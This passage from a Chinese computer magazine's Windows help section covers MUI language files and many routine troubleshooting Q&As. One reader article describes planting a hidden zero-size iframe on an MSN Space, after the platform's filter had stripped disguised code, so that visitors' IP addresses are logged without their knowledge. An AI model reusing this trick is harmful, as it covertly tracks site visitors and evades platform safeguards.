程序代码、语言资源分离方式有什么好处？这其实就类似于生活中的OEM生产，这样微软美国本土技术部门可以只专注程序代码的“生产”，剩下的本地语言资源开发则可以交由各国微软技术部门去完成，要封装成某种语言操作系统时，只要挂接上指定语言资源即可。这样不仅可以提高研发效率，而且本地化工作可以做得更好！

### 网络大补贴：

要想更详细了解Windows 7 安装包英文版和中文版差异用户，可以参考微软MVP张康宗老师的博客：http://tinyurl.com/m3hjek。

## 一探究竟，MUI 是怎么做翻译官的

如上所述，在Windows 7常见应用程序中都包含程序代码和MUI语言资源文件。比如在中文Windows 7中运行记事本程序时，则加载Windows\System32\zh-CN\notepad.exe.mui文件。如果删除notepad.exe.mui文件，则无法成功运行记事本程序。对于安装在Program Files目录的程序，比如wmplayer.exe，语言文件则保存在Program Files\Windows Media Player\zh-CN，这个语言文件是在安装中文Windows 7，或者升级WMP时安装到上述目录的。

### 小提示：

语言文件加载顺序，一般是首先加载来自“子目录\zh-CN\”的一个具有“同样文件名 + MUI”扩展名的文件。

## 语言故障，自己解决

由于Windows 7程序代码、语言资源分离，这样即使程序本身没有损坏，只要语言文件丢失或默认语言设置有误，很容易导致程序运行出错。

比如，中文Windows 7用户对系统启动进行配置，重启后，经常会发现启动管理器和F8菜单也变成英文界面。这是由于当Windows启动时，Boot Manager首先从BCD中读取相关菜单的语言版本信息，然后再调用C:\BOOT\BOOTMGR.EXE.MUI组成相应语言的启动菜单。默认情况下，BCD记录的显示语言是简体中文，BOOTMGR调用的C:\BOOT\zh-cn\BOOTMGR.EXE.MUI文件。如果这个语言文件丢失，或者BCD中记录的并非是中文信息，启动管理器界面就变成其他语言了。只要重新复制BOOTMGR.EXE.MUI文件到C:\BOOT\zh-cn\下（如果该文件丢失），然后以系统管理员身份运行下列命令，在BCD中配置默认显示语言为简体中文即可。

```
BCDEDIT -SET {BOOTMGR} LOCALE ZH-CN
BCDEDIT -SET {CURRENT} LOCALE ZH-CN
BCDEDIT -SET {MEMDIAG} LOCALE ZH-CN
BCDEDIT /ENUM ALL
```

## 轻轻地你来了，请留下你的脚印

### 原题重现：怎么才能知道谁最近浏览过我的MSN空间呢？

由于添加IP统计微软没有相关小工具，只有借助挂马技术添加第三方统计工具了。先是在HTML自定义代码里试验我最喜欢的图片伪装代码……结果失败，微软过滤得很严格，自动清除相关代码，只是留下伪装的图片。一番周折终于找到方法。

- 第一步：登录Windows Live Space，在登录页面后，点击“自定义→添加模块”菜单（见图1）。
- 第二步：选择添加“Sandbox简体中文版”；在之后打开的页面左下角选择“工具和实用程序”（见图2），并进行“添加”。





- 第三步：此时会弹出提示，希望小工具放的位置，这里我们选择“共享空间”（见图3）。
- 第四步：此时会回到首页，进入在文本框中填入代码（见图4）。




```
<html>
<iframe src="统计页面客户端地址" height=0 width=0></iframe>
</center>
</html>
```

将上面的代码替换为带http://的图片地址和统计程序地址，我就是用的百度Logo，关键是这个统计页面大家可以通过自己的动态空间来实现。我这里提供一个PHP的版本，下载地址：http://work.newhua.com/cfan/200923/php.rar。如果是ASP和JSP的空间，网上有很多现成的，可以去http://www.chinaz.com/下载。

### 小提示：

如果你觉得复杂，也可以登录http://www.51la/，使用博客地址进行注册，最后，点击获取代码，并将代码放置到上面的空白处即可。

### 小编点评：

本文是在被《穿越火线》破坏的鼠标中完成的，希望本文的稿费和奖金能让你换一个好鼠标！

本文的作者是个15岁的“老读者”，行文之间还透出了一股“黑气”（让我佩服的“黑客”）。文章使用的方法相当独特，就是获取的只是对方的IP，而不是他们的MSN或QQ账号，这点很遗憾，毕竟出题的目的也不是为了“黑”人。

想更多的了解作者swty，可以登录 http://bbs.cfan.com.cn/thread-1017302-1-1.html 查看原文（原文还隐藏着他的 Blog地址）。小编也希望更多的朋友能参与挑战，不管你文笔如何，只要题能答对了，奖金积分就随你拿！

挑战者：swty

## 为何系统不能记住文件夹设置

问：我在文件夹选项中将文件夹视图设置为详细列表模式，但是重新启动系统后又要设置才行。请问，为什么系统不能自动记忆文件夹视图参数设置？

答：这可能是你在某一个文件夹中设置了详细列表，但之后没有将该设置应用到所有文件夹。通常情况下，只要在某个文件夹中设置了特定的视图或是其他参数，再单击“工具→文件夹选项”，选择“查看”选项卡，再单击“应用到所有文件夹”按钮，这样设置后，其他文件夹也会与当前文件夹的设置参数同步了。

> 傻博士有话说：默认情况下，Windows系统只能记住400个文件夹视图设置，换句话说，如果已经设置了400个文件夹的视图参数，从第401个文件夹开始，设置的视图参数就不能被记忆。如果用户要想突破这个限制，可以通过注册表来实现：按Win+R打开“运行”对话框，输入“regedit”并回车，依次找到[HKEY_CURRENT_USER\Software\Microsoft\Windows\Shell和HKEY_CURRENT_USER\Software\Microsoft\Windows\ShellNoRoam]项，在右边窗口中双击“BagMRU Size”，将其值修改大一些，比如“1000”，然后重新启动即可。如果系统中安装了微软官方推出的TweakUI工具，运行后选择左侧的“资源管理器→定制”，然后在右侧窗格中将“记住文件夹的个数”由默认的400调整为更大的数字即可。

来源：http://bbs.cfan.com.cn/thread-735186-1-4.html

## 系统总是提示虚拟内存太小

问：我的笔记本电脑中安装的是Windows XP SP3系统，最近在打开多个程序后总提示虚拟内存值过小，之后就发现系统速度明显变慢。请问这该如何解决？

答：可能是你的笔记本电脑的物理内存配置不高，同时也没有分配过多的虚拟内存，应用程序在运行时内存资源不够用而出现的症状。在没有添加物理内存的情况下可以通过增加虚拟内存值来解决问题。

右击“我的电脑”并选择“属性→高级→性能”，在该框中单击“设置”按钮，选择“高级”选项卡，单击“更改”按钮，选择页面文件存放的位置（默认是在C盘），接下来再单击选中“自定义大小”按钮，然后设置“初始大小”和“最大值”，最后按“设置”按钮，再确定即可。

根据微软公司的建议，虚拟内存交换文件最小值应设为内存容量的1.5倍，不过若内存容量是512MB甚至1GB以至更高，那么它所占用的空间肯定也不少。因此当内存总容量在256MB以下，就将虚拟内存的最小值设置为1.5倍；在512MB以上，设置为内存容量的一半；介于256MB与512MB之间的就设为与内存容量的相同值。可以把初始大小和最大值设为相同，以避免系统频繁改变页面文件的大小。

## 为何不能更改系统时间

问：系统时间慢了几分钟，我打算更正一下时间时发现无法修改，系统提示“你没有适当的权限，无法修改系统时间”，请问这是什么原因？

答：你使用的系统账户可能不是系统管理员账号，如果知道系统管理员账户（Administrator）的密码，直接切换到该账户，然后再进行修改即可。此外，如果在系统组策略中关闭了时间修改权限也有可能出现无法修改的情况，只要按Win+R，在打开的“运行”对话框中输入“gpedit.msc”并回车，依次展开到“计算机配置→Windows设置→安全设置→本地策略→用户权利指派→更改系统时间”并双击，在打开的窗口中将当前用户添加到列表中即可。其实，修改系统时间可以直接在启动时按DEL或F2进入BIOS设置，然后设置好系统时间，这样就可以绕开操作系统中的限制。

来源：http://bbs.cfan.com.cn/thread-349096-1-8.html

## 关机命令为何不起作用

问：因为工作需要，我使用at命令写了一个关机批处理文件，内容如下：

```
@echo off
at 11:00 shutdown -s
echo 自动关机已经启动
```

但是当到达11点时仍不会出现自动关机现象。请问这是什么原因？

答：你的命令没有错误，出现问题的可能性是因为系统中的Task Schedule服务没有开启而导致的。只要按Win+R打开“运行”对话框，输入“services.msc”并回车，在打开的服务管理器中依次找到Task Schedule服务，双击并在打开的窗口中将其启动即可。

来源：http://bbs.cfan.com.cn/thread-904642-1-8.html

## 系统开机时提示找不到“nvmctray”模块

问：最近系统开启后，首先会弹出一个对话框：加载C:\windows\system32\nvmctray.dll出错找不到指定的模块，关闭此对话框后并不影响系统使用。请问这是什么原因？

答：这可能是系统在杀毒或是优化、卸载软件等操作时将显卡的相关组件删除或是损坏而导致的。若有显卡驱动程序，直接重新安装一次驱动程序及附属软件即可解决问题，如果不影响使用，直接按Win+R打开“运行”对话框，输入“msconfig”并回车，在“启动”标签中将nvmctray相关项取消选择，保存设置即可。

来源：http://wenda.tianya.cn/wenda/thread?id=50d4a07ce4b55623&clk=wttpcts

## 快速启动栏丢失

问：删除了C盘的一些文件，常用的快速启动栏丢失了，我的系统是Windows XP SP3。请问如何才能重新调出快速启动栏？

答：首先尝试右击任务栏空白处并选择“工具栏→快速启动”，如果将“快速启动”选中仍不能解决问题，再按下面步骤来解决：

检查C:\Documents and Settings\用户名\Application Data\Microsoft\Internet Explorer\Quick Launch目录是否存在，如果被删除了直接手工建立即可。

> 傻博士有话说：如果是因为误删除操作导致快速启动栏丢失，按上述方法修复后，快速启动栏中的程序图标都丢失了，可以通过将桌面程序快捷方式用鼠标拖动的方法拖到快速启动栏中。而对于“显示桌面”的图标，可以这样修复：

在上面的“Quick Launch”文件夹中新建一个记事本并输入以下内容：

```
[Shell]
Command=2
IconFile=explorer.exe,3
[Taskbar]
Command=ToggleDesktop
```

将其另存为 Show Desktop.scf即可。

## 宽屏为何不能显示桌面

问：我安装的是Windows XP SP3系统，使用17寸纯平显示器时可以正常使用，而换到22寸宽屏显示器时无法显示桌面，显示器指示灯一闪一闪的。请问这是什么原因？

答：这主要是因为你的系统中的显示刷新频率设置过高而超过了你的液晶显示器所支持的刷新频率，导致液晶显示器不能正常工作。只要在17寸纯平显示器模式下右击桌面并选择“属性”，在打开的设置窗口中选择“设置”，单击“高级”按钮，在“适配器”选项卡中将“屏幕刷新频率”设置为60Hz保存设置后关闭系统，接上22寸液晶显示器就能正常工作了。在连接了22寸液晶显示器的情况下，也可以直接启动系统到安全模式下进行设置。

## 如何进入 Windows 7 的安全模式

问：我刚安装了Windows 7系统，系统感染病毒了，我想进入安全模式下查杀，但我安装的是Windows 7的英文版。请问，Windows 7如何进入安全模式？

答：与Windows XP/Vista类似，只要重新启动系统并按F8键，选择“Safe Mode”项即可进入安全模式了。

## 打开“我的电脑”变成选择打开程序

问：我的是Windows XP SP3系统，不知道是感染了病毒还是误设置而导致的，现在打开“我的电脑”后总是打开选择程序打开的窗口。请问这该如何解决？

答：这可能是Explorer程序出错而引起的，排除系统中残留的病毒后可以通过下面方法来修复：

打开记事本，将以下内容添加到记事本中，并保存为AAA.bat文件并运行即可：

```
regsvr32 appwiz.cpl
regsvr32 mshtml.dll
regsvr32 jscript.dll
regsvr32 msi.dll
regsvr32 "C:\Program Files\Common Files\System\Ole DB\Oledb32.dll"
regsvr32 "C:\Program Files\Common Files\System\Ado\Msado15.dll"
regsvr32 mshtmled.dll
regsvr32 /i shdocvw.dll
regsvr32 /i shell32.dll
```

## Windows 7 不能安装显卡驱动程序

问：我刚刚装上Windows7 rc 7100,无法通过自动更新来安装驱动程序,Windows7没有找到关于驱动的更新。请问，如何才能安装上显卡驱动程序?

答：如果你不知道显卡型号，建议你到http://www.drivethelife.com/下载驱动人生这款软件，安装运行后直接检测并更新设备驱动程序，它会自动从网上下载并安装设备的驱动程序。

## 打开漫画文件夹，CPU 占用 100%

问：我的硬盘中有一个专门用来存储漫画的文件夹，现在保存了近30G的漫画。现在每次打开这个文件夹时，CPU就会占用100%，系统变成假死状态。请问这该如何解决？

答：这主要是因为这个漫画文件夹中保存的漫画文件太多，而系统又开启了图片及视频预览功能，在打开时系统需要准备图片或视频预览的数据，因此会占用大量的CPU资源。如果硬件配置不高就可能会出现假死现象了。可以通过关闭图片和视频预览功能来解决：按Win+R打开“运行”对话框，输入：regsvr32 /u shmedia.dll，单击“确定”按钮，当出现“shmedia.dll中的DllUnregisterServer成功”的提示框时，便可成功禁止视频的预览功能了。若恢复该预览功能，只要输入“regsvr32 shmedia.dll”并回车即可。

## 桌面的快捷方式为何总是丢失

问：我使用的是Windows XP SP3系统，最近不知道什么原因，安装了的程序在桌面创建的快捷方式或是手工为某个文件夹在桌面创建的快捷方式，只要重新启动系统后这些快捷方式都没有了，要重新建立。请问这是什么原因？

答：先检查系统中是否安装了还原类工具（像影子系统、雨过天晴），重新启动系统后，之前对系统的更改或是其他设置就会全部还原到原先状态。其次，再检查组策略中是否设置成关机后不保## 存桌面更改，直接禁用该策略即可：按Win+R打开运行对话框，输入“gpedit.msc”并回车，在打开的组策略编辑器窗口中依次选择“组策略→用户配置→管理模板→桌面”，禁用“退出时不保存设置”这个策略项即可。

现在不少电脑中都可能安装过还原类工具，甚至有的还安装了单独的还原卡，在网吧这类公共电脑中，更是普遍现象。因此，在这些不是自己的电脑中处理一些重要的文件时，最好使用U盘或是移动硬盘、手机等存储设备将文件备份好，万一出现重新启动系统后清除了之前的所有操作，损失可就大了。现在有不少基于U盘的移动办公工具（例如Ceedo），如果经常在网吧这类电脑中使用，直接将数据保存在U盘中，然后再启动U盘中的这类独立工作的工具，这样就不会受到操作系统的威胁了。

来源：http://bbs.cfan.com.cn/thread-926978-1-2.html

## 系统无法显示隐藏文件

问：我的系统自从上次中了一次RavMon.exe病毒后，系统中的隐藏文件就无法显示了，即使在文件夹选项中正确设置后也不能显示。请问这该如何解决？

答：这可能是病毒文件破坏了系统注册表相关参数项所致，只要将“http://work.newhua.com/cfan/200914/hidden.rar”解压得到的注册表文件导入注册表即可解决问题。

来源：http://bbs.cfan.com.cn/thread-421603-1-7.html

## 系统为何自动关机

问：最近不知道什么原因，系统在运行过程中会突然自动关机。请问这该如何解决？

答：系统突然关机，要从以下几个方面考虑：1) 系统感染病毒，可以先将杀毒软件病毒库升级到最新版，然后对系统进行全面查毒，如果感染了病毒，可以根治故障。2)硬件散热不畅导致硬盘设备启用自我保护而自动关机，这种现象一般出现在电脑使用时间过久而没有对主板上的灰尘进行清理，或是天气炎热没有做好散热措施导致硬盘环境温度过高而无法正常工作。仔细地将机箱打开，使用细毛刷、电吹风将机箱及硬件设备上的灰尘清理掉（必要时还要为CPU涂抹散热硅胶）。3)安装了一款与系统兼容性差的软件也会导致系统工作不正常而自动关机，检查最近安装的软件，可以尝试先卸载掉最可疑的软件看是否可以解除故障。

来源：http://bbs.cfan.com.cn/thread-921313-1-3.html

## 安装系统后没有待机、休眠选项

问：我的笔记本电脑安装了Windows XP SP3系统后发现没有了休眠和待机功能，请问如何才能让系统具备这两项功能？

答：首先检查是不是因为没有开启休眠功能而导致无法使用休眠功能，在控制面板中打开电源选项，如果有“休眠”选项卡请选择之，然后勾选“启用休眠”项，保存设置后即可。如果上面打开的窗口中根本就没有休眠选项，待机功能也不能使用，请检查有没有安装显卡驱动程序，如果没有安装显卡驱动程序就会出现无法使用待机或休眠功能（如果没有现成的驱动程序光盘，推荐直接使用驱动精灵程序搜索硬件并更新硬件驱动程序），只要将显卡驱动程序安装，之后便可使用这两项功能。此外，如果系统中相关组件损坏或是丢失也有可能会出现无法使用休眠或待机功能，可以通过对系统进行修复安装或是在运行对话框中运行“sfc /scannow”命令并将系统安装光盘放到系统中进行系统损坏文件修复来解决问题。

来源：http://bbs.cfan.com.cn/thread-921440-1-7.html

## 系统时间总是慢8分钟

问：我使用的是Windows Vista系统，系统时间总是慢8分钟，在系统启动时进入BIOS中时可以正常显示时间，但到Windows中后就会出现这种现象，即使调整为正确的时间也不能保存。请问这是什么原因？

答：出现这种问题，请先确保自己是否为管理员账号，接下来再打开组策略编辑器（按Win+R后输入“gpedit.msc”），在左侧窗格依次单击“计算机配置”→“Windows设置”→“安全设置”→“本地策略”→“用户权限分配”，接着在右侧窗格双击“更改系统时间”，如果自己的账号不在列表中，请将账户添加到列表中，这样就可以排除因为权限限制而导致无法设置系统时间的问题。接下来检查系统中安装的软件，不少软件对系统时间有干扰，譬如不少朋友安装的“眼睛卫士”就会导致系统时间无法修改的现象，只要将眼睛卫士关闭后再修改即可正常。或者直接切换到安全模式下再尝试更改系统时间，这样可以避免其他软件的干扰。

来源：http://bbs.et8.net/bbs/showthread.php?t=972425

## 为何无法整理碎片

问：我在整理碎片时，每次在C盘整理到20%的时候就会出现无法整理，查看报告显示：无法进行碎片整理，文件为C:\WINDOWS\system32\drivers\360AntiARP.sys。请问如何才能彻底地对C盘进行碎片整理操作？

答：这是因为你安装了360安全卫士并开启了ARP防火墙等监控功能所致，只要在360安全卫士中将所有的监控关闭（特别是ARP防火墙需要关闭），之后再进行碎片整理，整理完毕后再重新开启需要的监控功能即可。

傻博士有话说：磁盘碎片整理其实就是因为平时移动文件、删除文件等操作导致硬盘扇区中保存的数据不连续，在数据区块之间存在空白区块，通过磁盘碎片整理程序将数据“搬”到一块连续的存储区域从而腾出空白区块所占用的磁盘空间，从而达到提高系统运行速度的目的。而在磁盘碎片整理时，如果当前的数据正在被系统调用，则会导致整理失败。因此，磁盘碎片整理时最好关闭所有的应用程序或是在安全模式下进行整理，通常1个月左右整理一次即可，不需要频繁整理。

来源：http://bbs.cfan.com.cn/thread-924099-1-9.html

## 桌面总是显示“恢复 Active desktop”信息

问：我安装的是Windows XP SP3系统，最近不知道什么原因，每次登录到系统桌面时总是提示“恢复Active Desktop”的信息，关闭提示信息后也可以正常使用系统。请问这该如何解决？

答：这是因为你在系统中开启了活动桌面，而之后活动桌面中的网页元素运行出错而导致的，只要取消这个活动桌面中的网页项即可：右击桌面空白处并选择“属性”，选择“桌面”选项卡，单击“自定义桌面”按钮，选择“Web”选项卡，将列表中的Web项全部删除，保存设置即可。

此外，也可以按Win+R并输入“gpedit.msc”并回车打开组策略编辑器，再依次展开到“用户配置→管理模板→桌面→Active Desktop”项，双击右侧的“禁用Active Desktop”项，启用该策略即可。

来源：http://bbs.cfan.com.cn/thread-926659-1-2.html

## 添加或删除程序无法使用

问：自安装了虚拟光驱软件后，我在启动“添加或删除程序”时总是打不开，系统提示：An unexpected error occured res:sp3res.dll/defult.hta。请问这该如何解决？

答：这可能是“添加或删除程序”对应的程序模块损坏所致，只要在系统光盘中通过系统搜索功能找到“APPWIZ.CP_”文件，拷贝到硬盘中后再使用WinRAR将其解压，将得到的appwiz.cpl文件拷贝并覆盖C:\Windows\System32目录下的同名文件即可。

来源：http://os.deepin.org/read-htm-tid-1073026-fpage-3.html

## 开机需按 F1 才能继续

问：最近在启动系统时，在没启动Windows之前屏幕就会提示按F1继续，按F1启动到系统中后发现系统时间会自动跳到2005年1月1日，修改后下次启动故障依旧。请问这该如何解决？

答：这可能是主板上的CMOS电池电量不足所致，只要更换一块主板CMOS电池即可解决。此外，在系统启动时需要按F1才能继续的原因，还有可能是系统中没有软驱或是软驱已经坏了但没有拔下来，只要进入BIOS中将软驱禁用即可。

来源：http://bbs.cfan.com.cn/thread-922078-1-7.html

## 安装软件时提示无法抽取

问：最近在安装软件时经常出现“无法抽取***文件”而导致安装失败，而有些小软件是可以安装的。我的软件都是官方网站下载的，应该不是安装包问题。请问这该如何解决？

答：这可能是你的系统临时文件夹已满，安装软件时需要临时将软件解压到系统临时文件夹中，当临时文件夹已满无法保存安装向导解压出来的文件时就会出现无法安装的情况。只要清空系统临时文件夹即可解决问题，使用超级兔子、360安全卫士都可以清理。例如在超级兔子软件中启动“清理大师”，然后在列表中勾选“系统临时文件”即可进行清理了。

来源：http://bbs.cfan.com.cn/thread-924697-1-8.html

## 安装系统后盘符紊乱

问：我安装完Windows Vista系统后发现盘符紊乱了，原来的C盘变成了D盘，D盘却变成了F盘，请问如何将其还原成原先的名称？

答：重新启动系统并按F8进入安全模式，启动后右击“计算机”并选择“管理”，在打开的窗口中选择“磁盘管理”，接下来只要直接右击磁盘分区并选择“更改驱动器名称和路径”，在打开的窗口中就可以重新为指定的分区设置分区名称了。

## 安装驱动提示“系统找不到指定文件”

问：之前修改了注册表，之后发现网络连接不能使用，无法正常上网，在更新网卡驱动程序时系统提示找不到指定的文件，直接通过运行网卡驱动的安装程序也不行。请问这该如何解决？

答：这可能是因为修改注册表误修改或是删除了某个键值项而导致的，尝试在注册表编辑器中删除“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Network”下的CONFIG键值来解决问题，不少碰到类似故障的朋友通过此方法解决了问题。

傻博士有话说：注册表是操作系统的一个核心，很多系统、软件的配置都被保存在注册表的相关键值下，由于系统注册表受到严重损坏时可能会导致系统无法正常工作，因此，对于新手朋友来说，最好不要尝试自己动手修改注册表，防止出现误操作而影响系统的正常运行。即使对于操作熟练的朋友，在操作注册表之前最好做好备份操作，即使不备份整个注册表，也应该对要更改的相关键进行备份，当出现意外情况后还可以通过恢复来解决问题。

## 绿色版 QQ 如何在 Windows 7 中运行

问：最近刚安装了Windows 7，而之前放在另一块硬盘中的绿色软件现在无法直接运行，必须在兼容性中选择以管理员身份运行才行，但独QQ程序不能这样设置而无法运行。请问，Windows 7中如何直接运行绿色版QQ程序？

答：这是因为QQ运行需要VC运行库的支持，只要从 http://www.microsoft.com/downloads/thankyou.aspx?familyId=200b2fd9-ae1a-4a14-984d-389c36f85647&displayLang=zh-cn下载并安装，之后就可以直接运行QQ程序了。

## 关闭系统还原出错

问：我安装的是Windows Vista系统，在系统属性中的“系统保护”选项卡中关闭系统还原功能时总是得到错误提示：“系统还原使用的卷影复制服务无法启动……”请问这是什么原因？

答：按Win+R打开运行对话框，输入“services.msc”并回车打开服务管理器，找到“Volume Shadow Copy”服务并将其启用即可解决问题。

> 来源: 读者邮件提问

## Delete 文件为何很卡

问：我今天在删除一些大文件时，如果使用Delete键直接删除时，发现很卡，而通过Shift+Delete键删除时则不卡。请问这是什么原因？

答：如果开启了系统回收站功能的话，通过Delete键删除文件其实是将文件“移动”到回收站中，如果删除的是大文件，就可能会出现卡的现象。而Shift+Delete键则是直接删除文件的操作，因为不存在“移动”操作，因此，对系统资源占用较少而不出现在卡的情况。

> 来源: 其他网站论坛

## 如何找回系统搜索功能

问：我使用的是Windows XP SP3系统，不知道什么原因导致系统搜索功能丢失了，单击工具栏中的搜索按钮后，文件夹左侧原本出现的搜索项全都不显示，只显示搜索助手。请问如何找回系统搜索功能？

答：这可能是系统搜索功能被禁用所致，解决方法：按Win+R打开运行对话框，输入“gpedit.msc”并回车打开组策略编辑器，依次选择“用户配置→管理模板→Windows Components→Internet Explorer”项，在右侧窗口中找到“搜索：禁用自定义搜索”与“搜索：禁用在浏览器中通过F3查找文件”这两项，确保这两个策略未启用，假如启用了，重新设置它们为“已禁用”，重新启动系统即可解决问题。

> 来源: 其他网站论坛

## 开机时总是出现一排“扩挪扩挪”

问：我的Windows XP SP2系统在启动时总是显示一排“扩挪扩挪”，而以前则是“>>”或“=”。请问这是什么原因，如何恢复至原先的模式？

答：这可能是因为你对系统做过美化处理，譬如安装了美化软件，而导致系统引导文件出现紊乱所致。解决起来很简单：从其他同版本系统中的系统盘根目录找到以下三个文件：ntldr, NTDETECT.com, bootfont.bin这三个文件并将其拷贝，覆盖你的系统中同名文件即可。

> 来源: 其他网站论坛

## 安装 Windows 7 后无法访问第二块硬盘

问：我安装了Windows 7专业版，启动到系统中后发现总是无法访问到第二块硬盘，能看到盘符，但就是无法打开。请问这该如何解决？

答：这肯定是权限设定不正确所致，尝试以下设置方法：右击不能访问硬盘的盘符并选择“属性”，在打开的窗口中选择“安全→高级→有效权限”，然后将所有权限赋予自己的账户，这样设置后应该可以正常访问这块硬盘了。

## 无法打开盘符

问：我的电脑硬盘盘符打不开了，双击打开时出现这样的错误提示：检测到恶意脚本，你的计算机操作被终止，需要对该脚本进行一些处理。对象Windows script host shell object,活动 run 文件 D:\autorun.vbs。还原系统也不行。请问这是什么原因？

答：这肯定是系统中感染了病毒，通常都是U盘类病毒，它会在用户双击磁盘时自动运行，尽管是还原了系统，也同样会再次感染。现在最新版的杀毒软件都可以清杀这种类型的病毒，也可以到http://www.rensoft.com.cn/releases/1.html下载专门针对U盘类病毒的杀毒工具，查杀后即可解决问题。

> 傻博士有话说：U盘类病毒虽然是一种老病毒，但其传播范围和能力仍很强，在网吧的电脑中，一些用户的手机、U盘、MP3、MP4、学习机等移动存储类设备中经常含有这种病毒，经常会形成交叉感染，除了在系统中安装防火墙、杀毒软件并保持病毒库更新外，平时使用时养成良好的使用习惯很重要。例如，在别人的电脑中打开磁盘时尽量通过鼠标右击并选择“打开”的方式，避免使用双击的方法打开。关闭系统中的磁盘自动播放功能（按Win+R打开运行对话框，输入gpedit.msc打开组策略，依次展开“计算机配置→管理模板→系统”，然后在右窗格的“设置”标题下，双击“关闭自动播放”，单击“设置”选项卡，选中“已启用”复选钮，然后在“关闭自动播放”框中单击“所有驱动器”，单击“确定”保存设置。

> 来源: http://bbs.shudoo.com/viewthread.php?tid=1690618&extra=page%3D1

## RUNDLL32.EXE 无法找到组件

问：我使用的是Windows XP系统，每次打开一个程序时都会提示：RUNDLL32.EXE__无法找到组件...没有找到FRAMEDYN.DLL，因此这个应用程序无法启动。请问如何解决？

答：这可能是因为误操作或是其他原因导致FRAMEDYN.DLL文件损坏或丢失而导致的，尝试打开系统分区\windows\system32\wbem目录下拷贝该文件，并将其放到系统分区\windows\system32目录下，应该可以解决问题。此外，也可以直接从http://www.dll-files.com/dllindex/dll-files.shtml?framedyn下载。

> 来源: http://os.deepin.org/read-htm-tid-1086943-fpage-5.html

## 升级系统后无法访问 F 盘

问：原来使用Windows XP SP3系统，后来添加了一根内存条后将系统升级到Windows Vista，升级后就无法向F盘写入任何数据，而剩余空间是足够的。请问这是什么原因？

答：这可能是你在Windows XP SP3系统下对F盘进行了读取权限设定，而重新安装系统后，由于当前账户没有被分派权限所以无法对其进行写操作。只要使用管理员账号登录，然后再右击该盘符并选择“属性”，选择“安全”选项卡，将你的账户添加进来，之后再赋予该账户“完全控制”的权限即可。

> 来源: http://os.deepin.org/read-htm-tid-1088916-fpage-4.html

## 为何不能设置 BIOS 参数

问：可以进入BIOS设置界面，但是打开任何一个设置进入二级设置界面后所有选项都变成灰色不可选的。请问这该如何解决？

答：这可能是因为你没有足够的权限进行设置，也许你登录使用的密码是普通用户密码，没有权限。这种情况下，如果没有管理密码的话，可以直接将CMOS电池拔出，待4-5分钟后再插上电池，这样可以将BIOS限制密码清除，然后再进行修改即可。

> 来源: http://os.deepin.org/read-htm-tid-1082798-fpage-2.html

## 输入法状态栏丢失

问：输入法可以通过Ctrl+空格进行切换，但是在任务栏中不显示输入法状态栏，试过多种方法都无效。请问如何让输入法状态栏重新显示出来？

答：这可能是输入法状态条对应的ctfmon.exe进程没有启动所致，尝试按Win+R键打开运行对话框，输入“ctfmon”命令来解决，假如这样可以让输入法状态条显示出来，则说明问题出在ctfmon进程没有自动运行而引起的，只要按Win+R打开运行对话框，输入“msconfig”并回车，在打开的窗口中选择“启动”选项卡，找到并选中“ctfmon”项即可。

## 声卡安装后为何还是禁止状态

问：我已经找到适合Windows 7系统的声卡驱动程序，正确地安装到系统中后但声卡仍显示禁止状态而无法播放声音，请问这是什么原因？

答：这可能是系统中的Windows Audio服务没有开启所致，只要按Win+R打开运行对话框，输入“Services.msc”并回车打开服务管理器，找到Windows Audio服务并将其开启即可。

> 来源: http://bbs.et8.net/bbs/showthread.php?t=976707&catid=316

## 登录系统为何没有密码保护

问：我已经为系统账户设置了密码，管理员账户也设置了密码，但每次启动系统时都是直接进入而不是打开登录对话框。请问，登录系统时为何没有密码保护了？

答：这可能是之前设置让系统记住登录密码而导致的结果（例如TweakUI中就有这样的设置功能），解决方法也很简单：按Win+R打开运行对话框，输入“control userpasswords2”并回车，在打开的窗口中勾选“要使用本机，用户必须输入用户名和密码”选项，最后单击“确定”保存设置即可。

> 傻博士有话说：不少朋友平时使用电脑都是处于独立使用环境，例如在家中、自己的个人寝室、个人办公室等，不会有其他人干扰性地使用自己的电脑，再加上电脑中也没有十分重要的机密数据，就可以为系统设置一个密码，然后通过上面的命令打开的设置窗口，设置成登录系统无须输入密码，但在连接到网络中时，仍受密码保护。不过，提醒一下，如果电脑上网了，千万别取消用户密码，如果没有密码的话，网络上的病毒、木马或是黑客就可以轻松地进入系统进行破坏活动。

> 来源: http://os.deepin.org/read-htm-tid-1097218.html

## 无法访问桌面

问：我安装的是Windows XP与Windows 7双系统，我在Windows 7下更改了桌面文件夹(C:\Documents and Settings\Owner\桌面)的权限，现在在Windows XP系统下总是无法访问，提示没有权限。请问这该怎么办？

答：只要在Windows 7下为桌面文件夹重新设置权限即可：右击“桌面”文件夹并选择“属性”，在打开的设置窗口中选择“安全”选项卡，接下来将“Everyone”这个用户添加进去并为其设置“安全控制”权限，保存设置再回到Windows XP系统下便可正常访问桌面文件夹了。

> 来源: http://bbs.crsky.com/read.php?tid=1685976

## 文件夹被自动设置成隐藏属性

问：我使用的是Windows XP SP3系统，正常使用过程中发现一个怪现象：D盘的文件夹自动被设置成隐藏属性，想将其手工改回来时，设置项变成灰色不可用状态。请问这该如何解决？

答：这一般都由于系统感染病毒所致，将杀毒软件升级到最新版后对系统进行全盘杀毒，然后按Win+R打开运行对话框，输入“attrib -h -s -r d:*.* /s /d”（如果只针对某个特定的文件夹去除隐藏属性，请将“*.*”更换为该文件夹名称即可）即可解决问题。

> 来源: http://bbs.cfan.com.cn/viewthread.php?tid=974283&extra=page%3D1%26amp%3Bfilter%3Dtype%26amp%3Btypeid%3D6

## 开机总提示插入软盘

问：我的电脑根本就没有软驱了，但是进入系统后总是提示插入软盘。请问这是什么原因？

答：这一般是由于BIOS中没有禁用软驱的原因，只要重新启动系统并按Del(有的则是按F2)键进入BIOS设置界面，选择“Standard CMOS Setup”项，将“Drive A”设置为“None”，按F10保存并退出重新启动即可。

## Q&A 傻博士信箱

《电脑爱好者》· 合订本· 正文分册

来源： http://bbs.cfan.com.cn/viewthread.php?tid=974628&extra=page%3D1%26amp%3Bfilter%3Dtype%26amp%3Btypeid%3D6

### 玩游戏经常黑屏

问：我安装的是Windows XP SP3系统，在玩3D游戏时经常会出现：显示器驱动程序Nvlddmkm已停止响应，并且已成功恢复，然后就会黑屏。请问这是什么原因？

答：这一般都与硬件设备的驱动程序相关，通常的解决方法就是为显卡、显示器设备更新驱动程序，可以到驱动之家网站 (http://www.mydrivers.com/) 搜索、下载最新版的驱动程序，或者直接到硬件设备官方网站下载最新版驱动程序来解决问题。

来源： http://os.deepin.org/read-htm-tid-1088001-fpage-4.html

### 无法还原虚拟机

